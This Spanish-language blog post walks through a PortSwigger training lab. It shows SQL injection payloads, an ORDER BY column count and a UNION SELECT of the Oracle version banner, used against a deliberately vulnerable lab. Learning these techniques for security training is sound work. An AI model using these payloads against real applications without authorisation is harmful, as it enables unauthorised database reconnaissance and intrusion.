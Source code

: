 ```yaml
---
title: PortSwigger - SQL injection attack, querying the database type and version on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, querying the database type and version on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Accessories** o en cualquier otro filtro de búsqueda.

![](/images/images-portswigger-sqli/lab7-1.png)

Luego ejecutamos una query para enumerar la cantidad de columnas que existen.

```sql
' ORDER BY 1 -- -
```

![](/images/images-portswigger-sqli/lab7-4.png)

Con 1 la página funciona correctamente. Debemos seguir hasta que la página falle.

```sql
' ORDER BY 1,2 -- -
```

![](/images/images-portswigger-sqli/lab7-5.png)

Con 3 la página falla, esto significa que debemos agregar 2 `null` a nuestra query final.

```sql
' ORDER BY 1,2,3 -- -
```

![](/images/images-portswigger-sqli/lab7-6.png)

Siguiendo la [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) de PortSwigger podemos armar nuestra query final. 

Debemos identificar la versión que la base de datos, primero probaremos con Oracle y si no funciona probamos con Microsoft, PostgreSQL y así.

```sql
' UNION SELECT banner,null from v$version -- -
```

Por suerte el primer payload funcionó e identificamos que la base de datos es Oracle, además resolvimos el lab.

![](/images/images-portswigger-sqli/lab7-7.png)


---

## [Anterior](/sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)
## [Siguiente](/sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
